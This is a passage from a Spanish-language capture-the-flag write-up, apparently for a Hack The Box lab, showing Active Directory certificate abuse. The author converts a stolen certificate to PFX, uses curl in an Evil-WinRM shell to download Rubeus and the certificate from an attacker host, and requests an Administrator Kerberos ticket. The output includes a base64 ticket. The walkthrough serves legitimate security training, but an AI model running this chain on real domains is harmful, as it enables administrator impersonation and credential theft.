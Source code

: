 ```shell

Certify completed in 00:00:13.6141665
```
acabamos de recuperar un certificado pero esta en un formato PEM, para poder usar rubeus y generar el hash NTLM del administrador necesitamos convertir el certificado a PFX y con openssl lo podemos hacer

```bash
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
ahora subimos el archivo que nos dejó con nombre "cert.pfx" y el Rubeus 

## Requesting TGT with Certificate

```shell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> curl 10.10.14.3/cert.pfx -o cert.pfx

*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> curl  10.10.14.3/Rubeus.exe -o Rubeus.exe
```
Una vez que tengamos el certificado en cert.pfx, podemos solicitar un Kerberos TGT para el usuario "Administrator"

```bash
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> .\Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] Building AS-REQ (w/ PKINIT preauth) for: 'sequel.htb\Administrator'
[*] Using domain controller: fe80::816e:8bd0:4750:7250%4:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGSDCCBkSgAwIBBaEDAgEWooIFXjCCBVphggVWMIIFUqADAgEFoQwbClNFUVVFTC5IVEKiHzAdoAMC
      AQKhFjAUGwZrcmJ0Z3QbCnNlcXVlbC5odGKjggUaMIIFFqADAgESoQMCAQKiggUIBIIFBDcm1gllbmws
      GPeUQJOzXNk1bBleE51EdbuCB4slLzxr6oKSnNHcwG8hQT/Aka1UpdTeSAFH9JS5eKO3ZWcVjVOLNeB8
      rHk8nn1/r5lHckufGoDh3q4P3CbcSQreBQLiYnjktRfIglpc3PyolzI1gJEox+4f7fTv7Y/uALQOB3b+
      oIEXHcPNezMzLCo+hEr9PnWzzzIm4q0P81h2SbjQn9xtG1JBJGJHcgVuG1Lapjde3Acg+frpID6K9fWA
      L/t4F4MuE6+vKnXe2eRUcqs7D+Y1RotKfVsQQAO8bO6M92azibL1SwNBOB6Qbl5vZbaQAqulQBoFdByH
      L7ZEiVz4NxY0qRLb90Si4psTuZjqNRdiH0AO1JEFIiZieIaD4J0mXf0kPTDHdDuD1aqzp/vAUXbrZVLo
      mGkTQaQj4iyau+TKz5Hrs6uUCG9H8xRwVCb2nqc319IHsBgDNY9HzKuUDiT1ib3W1EGVg4065QT0OwbV
      Tc+Fb1+vexLw5tAtMWiN/joPQBOL7vMJ9xHKoxbNRNWtJyzImm0/v3YwZGoutUzedTRlwBSDn+OIusMj
      SJ4lC2aqetr4wvEOWxg5Dcyt6p3gAXmDTSVlmWgmUdebEWuj28hMgqVJa2wzfSmhMIDwEEzhp7F7UuTm
      ROypWFgQM8Sudk1jO7o5i0BhdF4su5RgAmriv2jSAuRZdJjJZPqs2qwYj0ClnJKD1nCFvR2XycRwLhzY
      U7UQxg5LUDJ2eodOmuJ56gWXK2WTz1XKVsOHHIrAvttefR4cZEpqzcki5llTy1balushkVybM/eFC0c+
      FjbQkHypFzbMgdjnhyBNnnK4PQSki1TMReEFwlAcknpi2bYt5IVRGeIfiW54nqihWHmjBnUq0JUMCNOc
      +3P932/VJWrfFNht5Db9hw86ILk4xCTzh7Zg6BOCQYsHcwYZiVyxTmtNNoELx1g72VTwgWDxVA6LsDBP
      lcw3eQuX0aiLylJIl8mTj4ggQ20ekPv4nRMREley77pjhJotofBDHyXemVbBSTM768eh32eXnLU2vBPJ
      nAaxdEmSktMtUwfrsQelsj7iABbMedDESikvLOqvK3xf94q6ELS2+rKwgW4bv4KD2hRxABFsw9VjZxQB
      U//VEg0kD+b1MTTrow9n4Ns5e6J92MRjrQL4odtkL8U/olla0ArM+k4A+g3Se2DT8g68meXeIxgxsq7m
      Q575CJh2yDgQOatY2NrFq8h1uyPj0yujw8IiPsFuZI0EKRQJrnxQ15MRGoPt+zhJuEkhAOULgWCnkS0E
      kQV1oVF0srITbmWWOviREqh3yFhGEtcH0shARORPfCUJPoWsOb75/uVstF4uQuUDgw1alFgmF0XCqEB9
      ucqS1P37/LVj+dJzUZCyLXYlzAmTGpx9DLAELg/8m/J8IlOHjVEAqi5wED7Cts5SrIGXmxC4B9qtBcWP
      PUSsdexT6ul+z+THHmpW4lwezfCtzV3ObM/K0x/B/NIlArO3oNtbzmo8SxEygq8ODkIQGE5uhxNyA64a
```